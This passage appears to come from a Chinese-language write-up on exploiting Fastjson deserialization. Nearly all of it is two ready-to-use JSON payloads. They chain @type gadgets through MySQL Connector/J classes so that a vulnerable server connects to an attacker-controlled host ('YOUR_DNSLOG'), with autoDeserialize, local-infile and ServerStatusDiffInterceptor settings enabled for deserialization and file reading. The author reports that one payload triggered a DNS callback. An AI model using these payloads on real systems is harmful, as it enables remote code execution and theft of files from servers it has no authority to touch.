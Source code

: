 另外一种写法：  
```
{
"@type": "java.lang.AutoCloseable",
"@type": "com.mysql.cj.jdbc.ha.ReplicationMySQLConnection",
  "proxy": {
    "@type": "com.mysql.cj.jdbc.ha.LoadBalancedConnectionProxy",
    "connectionUrl": {
      "@type": "com.mysql.cj.conf.url.ReplicationConnectionUrl",
      "masters": [
        {
          "host": ""
        }
      ],
      "properties": {
        "allowUrlInlocalInfile": "true",
        "allowLoadLocalInfile": "true",
        "autoDeserialize": "true",
        "dbname": "dbname",
        "host": "YOUR_DNSLOG",
        "password": "pass",
        "port": "7777",
        "queryInterceptors": "com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor",
        "user": "win_ini"
      },
      "slaves": []
    }
  }
}
```  
## 反序列化利用  
  
  
在上面探测中，这个payload成功触发dnslog  
```
{
  "@type": "java.lang.AutoCloseable",
  "@type": "com.mysql.jdbc.JDBC4Connection",
  "hostToConnectTo": "YOUR_DNSLOG",
  "portToConnectTo": 3306,
  "info": {
    "user": "yso_xxx",
    "password": "pass",
    "statementInterceptors": "com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor",
    "autoDeserialize": "true",
    "NUM_HOSTS": "1"
  },
  "databaseToConnectTo": "dbname",
  "url": ""
}
```  
  